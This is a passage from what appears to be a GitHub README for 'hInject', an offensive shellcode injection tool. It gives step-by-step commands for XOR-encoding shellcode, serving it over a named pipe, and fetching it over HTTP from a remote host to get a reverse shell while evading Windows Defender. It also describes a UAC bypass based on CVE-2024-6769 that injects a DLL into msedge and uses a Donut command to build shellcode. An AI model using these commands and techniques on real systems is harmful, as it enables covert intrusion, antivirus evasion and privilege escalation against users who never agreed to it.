 The beacon callback was successful, and Windows Defender did not block the process:
<img width="1462" height="865" alt="Pasted image 20250830015942" src="https://github.com/user-attachments/assets/c3b01061-1678-4be7-b42e-ec0c7dca1dfb" />


### Named Pipe Method

This method simulates inter-beacon communication by serving shellcode via a named pipe using the included `PipeServer` project.

1. Generate a C array from the shellcode:
```bash
python3 parser_tool.py --file shellcode.bin --xor-key ippyokai --carray --carray-out shellcode.c
```

2. Add the C array to the `PipeServer` project and rebuild.

3. Run `PipeServer` and `hInject`:
<img width="1611" height="468" alt="Pasted image 20250830022508" src="https://github.com/user-attachments/assets/80971569-b310-4f05-b537-efd9b96d3216" />

The beacon callback was successful:
<img width="1607" height="801" alt="Pasted image 20250830022558" src="https://github.com/user-attachments/assets/5781d520-bd36-40d7-a304-5f4ed5f507fe" />


### HTTP Method

This uses the full version of **hInject** with HTTP support.

1. Run the HTTP method:
```bash
.\hInject.exe -m http -i 192.168.136.138 -p 80 -f /shellcode.bin
```
<img width="1315" height="372" alt="Pasted image 20250830024322" src="https://github.com/user-attachments/assets/5b9abb8f-5769-4c75-8e84-682e26c17c48" />

The reverse shell was obtained, running as a non-elevated process (`whoami /priv` confirms):
<img width="1614" height="838" alt="Pasted image 20250830024203" src="https://github.com/user-attachments/assets/5c24ed1c-0b60-4c4b-b0f2-f6e809550d32" />


### UAC Bypass

> **Note**: The UAC bypass uses ALPC to register a new entry for `tapi32.dll` in the SxS assembly cache, which can be unreliable and may require administrative privileges. If it fails, consider replacing or removing it.

The UAC bypass is based on [fortra/CVE-2024-6769](https://github.com/fortra/CVE-2024-6769). The `uactrigger.exe` was reimplemented but i used the same`MsCtfMonitor.dll` patched just the message box popup using IDA with nop instructions. The bypass injects a custom `imm32.dll` containing encrypted shellcode into `msedge`.

#### Elevation Steps

1. Generate shellcode from `uactrigger.exe` using Donut:
```bash
./donut -a 2 -f 1 -o daijin.bin -i uactrigger.exe
```
<img width="994" height="329" alt="Pasted image 20250830030833" src="https://github.com/user-attachments/assets/177df7d7-3117-49aa-983c-fdafbe8e3115" />
